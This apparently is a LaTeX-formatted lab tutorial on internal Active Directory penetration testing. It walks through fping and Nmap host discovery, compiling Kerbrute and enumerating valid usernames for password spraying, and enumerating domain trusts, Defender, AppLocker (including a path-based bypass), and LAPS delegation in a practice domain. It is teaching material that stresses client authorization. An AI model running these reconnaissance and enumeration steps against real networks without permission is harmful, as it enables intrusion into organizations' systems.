Michael Mancuso@htb[/htb]\textbf{$} fping -asgq 172.16.5.0/23 172.16.5.5 172.16.5.25 172.16.5.50 172.16.5.100 172.16.5.125 172.16.5.200 172.16.5.225 172.16.5.238 172.16.5.240 510 targets 9 alive 501 unreachable 0 unknown addresses 2004 timeouts (waiting for response) 2013 ICMP Echos sent 9 ICMP Echo Replies received 2004 other ICMP received 0.029 ms (min round trip time) 0.396 ms (avg round trip time) 0.799 ms (max round trip time) 15.366 sec (elapsed real time) 
\end{verbatim}

The above command validates which hosts are active in the \verb|/23| network and does it quietly instead of spamming the terminal with results for each IP in the target list. We can combine the successful results and the information we gleaned from our passive checks into a list for a more detailed scan with Nmap. From the \verb|fping| command, we can see 9 'live hosts', including our attack host.

Note: The scan results in the target network will differ from the command output in this section due to the size of the lab network. It is still worth reproducing each example to practice how these tools work and to record every host that is living in your environment.

\subsubsection{Scanning with Nmap}
Now that we have a list of active hosts within our network, we can further enumerate those hosts. We are looking to determine what services each host is running, identify critical hosts such as \verb|Domain Controllers| and \verb|web servers|, and identify potentially vulnerable hosts to probe later. With our focus on AD, after doing a broad sweep, it would be wise of us to focus on standard protocols typically seen accompanying AD services, such as DNS, SMB, LDAP, and Kerberos, to name a few. Below is a quick example of a simple Nmap scan.

Code: bash

\begin{verbatim}
sudo nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum 
\end{verbatim}

The \href{https://nmap.org/book/man-misc-options.html}{-A (Aggressive scan options)} scan will perform several functions. One of the most important is a quick enumeration of well-known ports to include web services, domain services, etc. For our hosts.txt file, some of our results from Responder and fping overlapped (we found the name and IP address), so to keep it simple, just the IP address was fed into hosts.txt for the scan.

\paragraph{NMAP Result Highlights}

Initial Enumeration of the Domain

\begin{verbatim}
Nmap scan report for inlanefreight.local (172.16.5.5) Host is up (0.069s latency). Not shown: 987 closed tcp ports (conn-refused) PORT STATE SERVICE VERSION 53/tcp open domain Simple DNS Plus 88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-04 15:12:06Z) 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name) |_ssl-date: 2022-04-04T15:12:53+00:00; -1s from scanner time. | ssl-cert: Subject: | Subject Alternative Name: DNS:ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL | Issuer: commonName=INLANEFREIGHT-CA | Public Key type: rsa | Public Key bits: 2048 | Signature Algorithm: sha256WithRSAEncryption | Not valid before: 2022-03-30T22:40:24 | Not valid after: 2023-03-30T22:40:24 | MD5: 3a09 d87a 9ccb 5498 2533 e339 ebe3 443f |_SHA-1: 9731 d8ec b219 4301 c231 793e f913 6868 d39f 7920 445/tcp open microsoft-ds? 464/tcp open kpasswd5? 593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name) <SNIP> 3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name) 3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name) 3389/tcp open ms-wbt-server Microsoft Terminal Services | rdp-ntlm-info: | Target_Name: INLANEFREIGHT | NetBIOS_Domain_Name: INLANEFREIGHT | NetBIOS_Computer_Name: ACADEMY-EA-DC01 | DNS_Domain_Name: INLANEFREIGHT.LOCAL | DNS_Computer_Name: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL | DNS_Tree_Name: INLANEFREIGHT.LOCAL | Product_Version: 10.0.17763 |_ System_Time: 2022-04-04T15:12:45+00:00 <SNIP> 5357/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |_http-title: Service Unavailable |_http-server-header: Microsoft-HTTPAPI/2.0 Service Info: Host: ACADEMY-EA-DC01; OS: Windows; CPE: cpe:/o:microsoft:windows 
\end{verbatim}

Our scans have provided us with the naming standard used by NetBIOS and DNS, we can see that some hosts have RDP open, and they have pointed us in the direction of the primary \verb|Domain Controller| for the INLANEFREIGHT.LOCAL domain (ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL). The following results show some interesting results surrounding a possibly outdated host (not in our current lab).

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} nmap -A 172.16.5.100 Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 13:42 EDT Nmap scan report for 172.16.5.100 Host is up (0.071s latency). Not shown: 989 closed tcp ports (conn-refused) PORT STATE SERVICE VERSION 80/tcp open http Microsoft IIS httpd 7.5 |_http-title: Site doesn't have a title (text/html). |_http-server-header: Microsoft-IIS/7.5 | http-methods: |_ Potentially risky methods: TRACE 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 443/tcp open https? 445/tcp open microsoft-ds Windows Server 2008 R2 Standard 7600 microsoft-ds 1433/tcp open ms-sql-s Microsoft SQL Server 2008 R2 10.50.1600.00; RTM | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback | Not valid before: 2022-04-08T17:38:25 |_Not valid after: 2052-04-08T17:38:25 |_ssl-date: 2022-04-08T17:43:53+00:00; 0s from scanner time. | ms-sql-ntlm-info: | Target_Name: INLANEFREIGHT | NetBIOS_Domain_Name: INLANEFREIGHT | NetBIOS_Computer_Name: ACADEMY-EA-CTX1 | DNS_Domain_Name: INLANEFREIGHT.LOCAL | DNS_Computer_Name: ACADEMY-EA-CTX1.INLANEFREIGHT.LOCAL |_ Product_Version: 6.1.7600 Host script results: | smb2-security-mode: | 2.1: |_ Message signing enabled but not required | ms-sql-info: | 172.16.5.100:1433: | Version: | name: Microsoft SQL Server 2008 R2 RTM | number: 10.50.1600.00 | Product: Microsoft SQL Server 2008 R2 | Service pack level: RTM | Post-SP patches applied: false |_ TCP port: 1433 |_nbstat: NetBIOS name: ACADEMY-EA-CTX1, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c7:1c (VMware) | smb-os-discovery: | OS: Windows Server 2008 R2 Standard 7600 (Windows Server 2008 R2 Standard 6.1) | OS CPE: cpe:/o:microsoft:windows_server_2008::- | Computer name: ACADEMY-EA-CTX1 | NetBIOS computer name: ACADEMY-EA-CTX1\x00 | Domain name: INLANEFREIGHT.LOCAL | Forest name: INLANEFREIGHT.LOCAL | FQDN: ACADEMY-EA-CTX1.INLANEFREIGHT.LOCAL |_ System time: 2022-04-08T10:43:48-07:00 <SNIP> 
\end{verbatim}

We can see from the output above that we have a potential host running an outdated operating system ( Windows 7, 8, or Server 2008 based on the output). This is of interest to us, since it means that there are legacy operating systems running in this AD environment. It also means there is potential for older exploits like EternalBlue, MS08-067, and others to work and provide us with a SYSTEM level shell. As strange as it sounds to have hosts running legacy software or end-of-life operating systems, it is still common in large enterprise environments. You will often have some process or equipment, such as a production line or HVAC built on the older OS and that has been in place for a long time. Taking equipment like that offline is costly and can hurt an organization, so legacy hosts are often left in place. They will likely try to build a hard outer shell of firewalls, IDS/IPS, and other monitoring and protection solutions around those systems. If you can find your way into one, it is a big deal and can be a quick and easy way to get there. However, before exploiting legacy systems, we should alert our client and get their approval in writing in case an attack results in system instability or brings a service or host down. They may prefer that we simply observe, report, and move on without actively exploiting the system.

The results of these scans will guide us into where we will start looking for potential domain enumeration avenues, not just host scanning. We need to find our way to a domain user account. Looking at our results, we found several servers that host domain services ( DC01, MX01, WS01, etc.). Now that we know what services are running and what exist, we can poll those servers and attempt to enumerate users. Be sure to use the \verb|-oA| flag as a best practice when performing Nmap scans. This will ensure that we have our scan results in several formats for logging purposes and formats that can be manipulated and fed into other tools.

We need to be aware of what scans we run and how they work. Some of the Nmap scripted scans run active vulnerability checks against a host that could cause system instability or take it offline, causing issues for the customer, or worse. For example, running a large discovery scan against a network with devices such as sensors or logic controllers could potentially overload them and disrupt the customer's industrial equipment, causing a loss of product or capability. Take the time to understand the scans you use before running them in a customer environment.

We will most likely return to these results later for further enumeration, so don’t forget about them. We need to find our way to a domain user account or \verb|SYSTEM| level access on a domain-joined host so that we can gain a foothold and start the real fun. Let us dive into finding a user account.

\subsection{Identifying Users}

If our client does not provide us with a user to start testing with (which is often the case), we will need to find a way to establish a foothold in the domain by either obtaining clear text credentials or an NTLM password hash for a user, a SYSTEM shell on a domain-joined host, or a shell in the context of a domain user account. Obtaining a valid user with credentials is critical in the early stages of an internal penetration test. This access (even at the lowest level) opens up many opportunities to perform enumeration and even attacks. Let’s look at one way we can start gathering a list of valid users in a domain to use later in our assessment.

\subsubsection{Kerbrute – Internal AD Username Enumeration}

\href{https://github.com/ropnop/kerbrute}{Kerbrute} can be a stealthier option for domain account enumeration. It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts. We will use Kerbrute in conjunction with the \verb|jsmith.txt| or \verb|jsmith2.txt| user lists from \href{https://github.com/insidetrust/statistically-likely-usernames}{Insidetrust}. This repository contains many different user lists that can be extremely useful when attempting to enumerate users when starting from an unauthenticated perspective. We can point Kerbrute at the DC we found earlier and feed it a wordlist. The tool is quick, and we will be provided with results letting us know if the accounts found are valid or not, which is a great starting point for launching attacks such as password spraying, which we will cover in-depth later in this chapter.

To get started with Kerbrute, we can download \href{https://github.com/ropnop/kerbrute/releases/latest}{precompiled binaries} for the tool for testing from Linux, Windows, and Mac, or we can compile it ourselves. This is generally the best practice for any tool we introduce into a client environment. To compile the binaries to use on the system of our choosing, we first clone the repo:

\paragraph{Cloning Kerbrute GitHub Repo}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} sudo git clone https://github.com/ropnop/kerbrute.git Cloning into 'kerbrute'... remote: Enumerating objects: 845, done. remote: Counting objects: 100% (47/47), done. remote: Compressing objects: 100% (36/36), done. remote: Total 845 (delta 18), reused 28 (delta 10), pack-reused 798 Receiving objects: 100% (845/845), 419.70 KiB | 2.72 MiB/s, done. Resolving deltas: 100% (371/371), done. 
\end{verbatim}

Typing \verb|make help| will show us the compiling options available.

\paragraph{Listing Compiling Options}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} make help help: Show this help. windows: Make Windows x86 and x64 Binaries linux: Make Linux x86 and x64 Binaries mac: Make Darwin (Mac) x86 and x64 Binaries clean: Delete any binaries all: Make Windows, Linux and Mac x86/x64 Binaries 
\end{verbatim}

We can choose to compile just one binary or type \verb|make all| and compile one each for use on Linux, Windows, and Mac systems (an x86 and x64 version for each).

\paragraph{Compiling for Multiple Platforms and Architectures}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} sudo make all go: downloading github.com/spf13/cobra v1.1.1 go: downloading github.com/op/go-logging v0.0.0-20160315200505-970db520ece7 go: downloading github.com/ropnop/gokrb5/v8 v8.0.0-20201111231119-729746023c02 go: downloading github.com/spf13/pflag v1.0.5 go: downloading github.com/jcmturner/gofork v1.0.0 go: downloading github.com/hashicorp/go-uuid v1.0.2 go: downloading golang.org/x/crypto v0.0.0-20201016220609-9e8e0b390897 go: downloading github.com/jcmturner/rpc/v2 v2.0.2 go: downloading github.com/jcmturner/dnsutils/v2 v2.0.0 go: downloading github.com/jcmturner/aescts/v2 v2.0.0 go: downloading golang.org/x/net v0.0.0-20200114155413-6afb5195e5aa cd /tmp/kerbrute rm -f kerbrute kerbrute.exe kerbrute kerbrute.exe kerbrute.test kerbrute.test.exe kerbrute.test kerbrute.test.exe main main.exe rm -f /root/go/bin/kerbrute Done. Building for windows amd64.. <SNIP> 
\end{verbatim}

The newly created \verb|dist| directory will contain our compiled binaries.

\paragraph{Listing the Compiled Binaries in dist}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} ls dist/ kerbrute_darwin_amd64 kerbrute_linux_386 kerbrute_linux_amd64 kerbrute_windows_386.exe kerbrute_windows_amd64.exe 
\end{verbatim}

We can then test out the binary to make sure it works properly. We will be using the x64 version on the supplied Parrot Linux attack host in the target environment.

\paragraph{Testing the kerbrute\_linux\_amd64 Binary}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} ./kerbrute_linux_amd64 __ __ __ / /_____ _____/ /_ _______ __/ /____ / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \ / ,< / __/ / / /_/ / / / /_/ / /_/ __/ /_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/ Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers. Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts Usage: kerbrute [command] <SNIP> 
\end{verbatim}

We can add the tool to our PATH to make it easily accessible from anywhere on the host.

\paragraph{Adding the Tool to our Path}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} echo $PATH /home/htb-student/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/snap/bin:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/home/htb-student/.dotnet/tools 
\end{verbatim}

\paragraph{Moving the Binary}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute 
\end{verbatim}

We can now type \verb|kerbrute| from any location on the system and will be able to access the tool. Feel free to follow along on your system and practice the above steps. Now let’s run through an example of using the tool to gather an initial username list.

\paragraph{Enumerating Users with Kerbrute}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users 2021/11/17 23:01:46 > Using KDC(s): 2021/11/17 23:01:46 > 172.16.5.5:88 2021/11/17 23:01:46 > [+] VALID USERNAME: jjones@INLANEFREIGHT.LOCAL 2021/11/17 23:01:46 > [+] VALID USERNAME: sbrown@INLANEFREIGHT.LOCAL 2021/11/17 23:01:46 > [+] VALID USERNAME: tjohnson@INLANEFREIGHT.LOCAL 2021/11/17 23:01:50 > [+] VALID USERNAME: evalentin@INLANEFREIGHT.LOCAL <SNIP> 2021/11/17 23:01:51 > [+] VALID USERNAME: sgage@INLANEFREIGHT.LOCAL 2021/11/17 23:01:51 > [+] VALID USERNAME: jshay@INLANEFREIGHT.LOCAL 2021/11/17 23:01:51 > [+] VALID USERNAME: jhermann@INLANEFREIGHT.LOCAL 2021/11/17 23:01:51 > [+] VALID USERNAME: whouse@INLANEFREIGHT.LOCAL 2021/11/17 23:01:51 > [+] VALID USERNAME: emercer@INLANEFREIGHT.LOCAL 2021/11/17 23:01:52 > [+] VALID USERNAME: wshepherd@INLANEFREIGHT.LOCAL 2021/11/17 23:01:56 > Done! Tested 48705 usernames (56 valid) in 9.940 seconds 
\end{verbatim}

We can see from our output that we validated 56 users in the INLANEFREIGHT.LOCAL domain, and it took only a few seconds to do so. Now we can take these results and build a list for use in targeted password spraying attacks.

\subsection{Identifying Potential Vulnerabilities}

The \href{https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account}{local system} account \verb|NT AUTHORITY\SYSTEM| is a built-in account on Windows operating systems. It has the highest level of access on the OS and is used to run most Windows services. It is also very common for third-party services to run in the context of this account by default. A \verb|SYSTEM| account on a \verb|domain-joined| host will be able to enumerate Active Directory by impersonating the computer account, which is essentially just another kind of user account. Having SYSTEM-level access within a domain environment is nearly equivalent to having a domain user account.

There are several ways to gain SYSTEM-level access on a host, including but not limited to:

\begin{itemize}
    \item Remote Windows exploits such as MS08-067, EternalBlue, or BlueKeep.
    \item Abusing a service running in the context of the \verb|SYSTEM account|, or abusing the service account \verb|SeImpersonate| privileges using \href{https://github.com/ohpe/juicy-potato}{Juicy Potato}. This type of attack is possible on older Windows OS but not always possible with Windows Server 2019.
    \item Local privilege escalation flaws in Windows operating systems, such as the Windows 10 Task Scheduler 0-day.
    \item Gaining admin access on a domain-joined host with a local account and using Psexec to launch a SYSTEM cmd window
\end{itemize}
By gaining SYSTEM-level access on a domain-joined host, you will be able to perform actions such as but not limited to:

\begin{itemize}
    \item Enumerate the domain using built-in tools or offensive tools such as BloodHound and PowerView.
    \item Perform Kerberoasting / ASREPRoasting attacks within the same domain.
    \item Run tools such as Inveigh to gather Net-NTLMv2 hashes or perform SMB relay attacks.
    \item Perform token impersonation to hijack a privileged domain user account.
    \item Carry out ACL attacks.
\end{itemize}

\subsection{A Word Of Caution}

Keep in mind the scope and style of the test when choosing a tool to use. If you are conducting a non-evasive penetration test, with everything out in the open and the customer's staff knowing that you are there, it doesn't usually matter how much noise you make. However, during an evasive penetration test, adversarial evaluation, or red team engagement, you are trying to mimic the tools, tactics, and procedures of a potential attacker. With that in mind, \verb|stealth| is of concern. Throwing Nmap at an entire network is not exactly quiet, and many of the tools we commonly use on a penetration test will trigger alarms for an educated and prepared SOC or Blue Teamer. Always be sure to clarify the goal of your assessment with the client in writing before starting it.

\subsection{Let’s Find a User}

In the following sections, we will search for a domain user account using techniques such as LLMNR/NBT-NS poisoning and password spraying. These attacks are great ways to gain a foothold, but must be exercised with caution and an understanding of the tools and techniques. Now let's search for a user account so we can move on to the next phase of our assessment and start picking apart the domain piece by piece and searching for a multitude of misconfigurations and flaws.

 

 
\subsection{Enumerating Trusts with PowerShell}
If we land on a system with the Active Directory PowerShell module installed, we can use the \texttt{Get-ADTrust} cmdlet to enumerate trust relationships.

\begin{notebox}
\begin{verbatim}
    PS C:\Users\mindhackdiva> Import-Module ActiveDirectory PS C:\Users\mindhackdiva> Get-ADTrust filter *
\end{verbatim}
\end{notebox}

\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-ADTrust filter *
\end{minted}
\end{notebox}

Example output:
\begin{notebox}
\begin{minted}{yaml}
Direction : Bidirectional DisallowTransivity : False
DistinguishedName            : CN = logistics.ad, CN = system, DC = inlanefreight, DC = ad ForestTransitive : True
IntraForest : False
Name : logistics.ad...
Direction : Bidirectional DisallowTransivity : False
DistinguishedName            : CN=child.inlanefreight.ad,CN=System,DC=inlanefreight,DC=ad
ForestTransitive             : False
IntraForest : True
Name : child.inlanefreight.ad
\end{minted}
\end{notebox}

From this output, we can see a couple of things happening here:
\begin{itemize}
    \item There is a bidirectional (two-way) trust exists between the \texttt{INLANEFREIGHT.AD} domain and the \texttt{LOGISTICS.AD} domain.
    \begin{itemize}
        \item Because these domains are in different forests, this is a \textit{forest trust.}
    \end{itemize}
\item There is a bidirectional intra-forest trust with the child domain \texttt{CHILD.INLANEFREIGHT.AD}.
\begin{itemize}
    \item This indicates that our current position is within the \texttt{INLANEFREIGHT.AD} forest.

\end{itemize}
\end{itemize}

Understanding the relationships described here is important to understand fully, as they define potential attack pathways favorable for lateral movement and privilege escalation that we will explore in further detail in later sections.

\subsection{Enumerating Trusts with PowerView}
PowerView is an open-source tool that remains highly effective for AD enumeration. It includes several functions to discover trusts. Let us begin with the \texttt{Get-DomainTrust} command.

\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-DomainTrust
\end{minted}
\end{notebox}

\begin{notebox}
  \begin{minted}{yaml}
SourceName          : inlanefreight.ad
TargetName          : logistics.ad
TrustType           : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes     : FOREST_TRANSITIVE
TrustDirection      : Bidirectional

SourceName          : inlanefreight.ad
TargetName          : child.inlanefreight.ad
TrustType           : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes     : WITHIN_FOREST
TrustDirection      : Bidirectional
\end{minted}
\end{notebox}

This output shows the same information as \texttt{Get-ADTrust}, but in a more user-friendly format. It confirms that
\begin{itemize}
    \item We are in the \textbf{parent domain} \texttt{INLANEFREIGHT.AD}.
    \item We have a \textbf{cross-forest trust} with \texttt{LOGISTICS.AD}
    \item We have an \textbf{intra-forest trust} with the child domain \texttt{CHILD.INLANEFREIGHT.AD}.
\end{itemize}

Another useful function is the \texttt{Get-DomainTrustMapping}, which attempts to enumerate trusts for every discovered domain you successfully identify.

\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-DomainTrustMapping
\end{minted}
\end{notebox}

\section{Enumerating Security Controls}
After gaining a toehold, we could now use this access to get a feel for the defensive state of the hosts, enumerate the domain further now that our visibility is not as restricted, and, if necessary, work at :living off the land" by using tools that exist natively on hosts. It is important to understand the security controls in place in an organization, as the products in use can greatly affect the tools you use for AD enumeration, as well as exploitation and post-exploitation activities. Understanding the protections you may be up against will help inform your decisions regarding tool selection and usage, and also assist you in planning your course of action by either avoiding or modifying certain tools. Some organizations have more stringent protections than others, and some do not apply domain- or necessary enterprise-wide security controls equally throughout. There may be security policies applied to certain machines that can make enumeration efforts more difficult compared to enumerating machines that have no policies applied.

\informationbox{Note: This section is intended to showcase possible security controls in place within an Active Directory domain but does not have an interactive component. Enumerating and bypassing security controls are not part of the scope of this section, but I wanted to give and provide an overview of the possible technologies you may encounter during a security engagement.}

\subsection{Windows Defender}
Windows Defender (or Microsoft Defender) has greatly improved over the years and, by default, will block such tools as PowerView. There are ways to bypass these protections and restrictions, and these ways will be covered in other sections of the book. We can use the built-in PowerShell cmdlet \texttt{Get-MpComputerStatus} to get the current Defender status. Here, we can see that the parameter \verb|RealTimeProtectionEnabled| is set to \texttt{true}, which means that the Defender is enabled on the system.

\subsubsection{Checking the Status of Defender with \verb|Get-MpComputerStatus|}
Enumerating Security Controls
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-MpComputerStatus


AMEngineVersion                     :
1.1.17400.5
AMProductVersion                    :
4.10.14393.0
AMServiceEnabled                    : True
AMServiceVersion                    :
4.10.14393.0
Antispyware Enabled                 : True
AntispywareSignatureAge             : 1
AntispywareSignatureLastUpdated     : 7/2/2025 11:31:50 AM
AntispywareSignatureVersion         : 1.323.392.0
BehaviorMonitorEnabled              : False
ComputerID                          : 07D23A51-F83F-4651-B9ED-110FF2B83A9C
ComputerState                       : 0
FullScanAge                         : 4294967295
FullScanEndTime                     :
FullScanStartTime                   :
IoavProtectionEnabled               : False
LastFullScanSource                  : 0
LastQuickScanSource                 : 2
NISEnabled                          : False
NISEngineVersion                    : 0.0.0.0
NISSignatureAge                     : 4294967295
NISSignatureVersion                 : 0.0.0.0
OnAccessProtectionEnabled           : False
QuickScanAge                        : 0
QuickScanEndTime                    : 8/3/2025 12:50:45 AM
QuickScanStartTime                  : 8/3/2025 12:49:49 AM
RealTimeProtectionEnabled           : True
RealTimeScanDirection               : 0
PSComuterName                       :
\end{notebox}
\end{minted}
\end{notebox}

\subsection{AppLocker}
An application allowlist is a set of approved software applications or executables that are allowed to be present and executed on any system to which the allowlist applies. The goal is to protect the environment from harmful malware and unapproved software that does not align with the specific business needs of an organization. AppLocker is Microsoft's application allowlisting solution and gives system administrators control over which applications and files users are allowed to run. Provides granular control over executables, scripts, Windows installer files, DLLs, packaged apps, and packaged app installers. It is common for organizations to block \texttt{smd.exe} and \texttt{powershell.exe} and write access to certain directories, but this can all be easily bypassed. Organizations also often focus on blocking the \texttt{powershell.exe} executable, but forget about the other PowerShell executable locations such as \verb|%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe| or \texttt{PowerShell_ISE.exe}. We can see that this is the case in the AppLocker rules shown below. All Domain Users are disallowed from running the 64-bit PowerShell executable located at:
\begin{notebox}
\begin{minted}{powershell}
%SystemRoot\system32\WindoesPowerShell\v1.0\powershell.exe
\end{minted}
\end{notebox}
So, we can simply call it from other locations. Sometimes, you may run into more stringent AppLocker policies that require more creativity to bypass. These ways will be covered in later sub-sections within this section.
\subsubsection{Using \texttt{Get-AppLockerPolicy} cmdlet}
\textbf{Enumerating Security Controls}
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-AppLockerPolicy - Effective | select -ExpandProperty
RuleCollections

PathConditions          :{%SYSTEM32%\WINDOWSPOWERSHELL\V1.0\POWERSHELL.EXE}
PathExceptions          : {}
PublisherExceptions     : {}
HashExeceptions         : {}
Id                      : 3d57af4a-6cf8-4e5b-acfc-c2c2956061fa
Name                    : Block PowerShell
Description             : Blocks Domain Users from using PowerShell on workstations
UserofGroupSid          : S-1-5-21-2974783224-3764228556-2640795941-513
Action                  : Deny

PathConditions          : {%PROGRAMFILES%\*}
PathExceptions          : {}
PublisherExceptions     : {}
HashExceptions          : {}
Id                      : 921cc481-6e17-4653-8f75-050b80acca20
Name                    : (Default Rule) All files located in the Program Files folder
Description             : Allows members of the Everyone group to run applications that are located in the Program Files folder
UserOrGroupSid          : S-1-1-0
Action                  : Allow

PathConditions          : {%WINDIR%\*}
PathExceptions          : {}
PublisherExceptions     : {}
HashExceptions          : {}
Id                      : a61c8b2c-a319-4cd0-9690-d2177cad7b51
Name                    : (Default Rule) All files located in the Windows folder
Description             : Allows members of the Everyone group to run applications that are located in the Windows folder
UserorGroupSid          : S-1-1-0
Action                  : Allow

PathConditions          : {*}
PathExceptions          : {}
PublisherExceptions     : {}
HashExceptions          : {}
Id                      : fd686d83-a829-4351-8ff4-27c7de5755d2
Name                    : (Default Rule) All files
Description             : Allows members of the local Administrators group to run all applications
UserorGroupSid          : S-1-5-32-544
Action                  : Allow
\end{minted}
\end{notebox}

\subsection{PowerShell Constrained Language Mode}
PowerShell Constrained Language Mode locks down many of the features needed to use PowerShell effectively, such as blocking COM objects-only allowing approved.NET types, XAML-based workflows, PowerShell classes, and more. We can quickly enumerate whether we are in Full-Language Mode or Constrained-Language Mode.
\subsubsection{Enumerating Language Mode}
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> $ExecutionContext.SessionState.LanguageMode

ConstrainedLanguage
\end{minted}
\end{notebox}

\subsection{LAPS}
The Microsoft Local Administrator Password Solution is used to randomize and rotate local administrator passwords on Windows hosts and prevent lateral movement. We can enumerate which domain users can read the LAPS password set for machines with LAPS installed and what machines do not have LAPS installed. The \textbf{LAPSToolkit} greatly facilitates this with several functions. One function is parsing \texttt{ExtendedRights} for all computers with LAPS enabled. This will show groups specifically delegated to read LAPS passwords, which are often users in protected groups. An account that has joined a computer to the domain receives \texttt{All_Extended_Rights} over that host, and this right gives the account the ability to read passwords. The enumeration may show a user account that can read the LAPS password on a host. This can help you better target specific AD users who can read LAPS passwords.
\subsubsection{Using \texttt{Find-LAPSDelegatedGroups}}
\textbf{Enumerating Security Controls}
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Find-LAPSDelegatedGroups
----------------------------------------------------OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANDFREIGHT\Domain Admins
OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=Workstations,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=Web servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\Domain Admins
OU=Web Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=SQL Servers,OU=SErvers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=File Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\Domain Admins
OU=File Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\textbackslash{}LAPS Admins OU=Contractor Laptops,OU=Workstations,DC=INLANEF... INLANEFREIGHT\textbackslash{}Domain Admins OU=Contractor Laptops,OU=Workstations,DC=INLANEF... INLANEFREIGHT\textbackslash{}LAPS Admins OU=Staff Workstations,OU=Workstations,DC=INLANEF... INLANEFREIGHT\textbackslash{}Domain Admins OU=Staff Workstations,OU=Workstations,DC=INLANEF... INLANEFREIGHT\textbackslash{}LAPS Admins OU=Executive Workstations,OU=Workstations,DC=INL... INLANEFREIGHT\textbackslash{}Domain Admins OU=Executive Workstations,OU=Workstations,DC=INL... INLANEFREIGHT\textbackslash{}LAPS Admins OU=Mail Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\textbackslash{}Domain Admins OU=Mail Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\textbackslash{}LAPS Admins 
\end{minted}
\end{notebox}

The \texttt{Find-AdmPwdExtendedRights} checks the rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights." Users with "All Extended Rights" can read LAPS passwords and may be less protected than users in delegated groups, so this is worth checking for.

\subsubsection{Using \texttt{Find-AdmPwdExtendedRights}}
\textbf{Enumerating Security Controls}
\begin{notebox}
\begin{minted}{powershell}
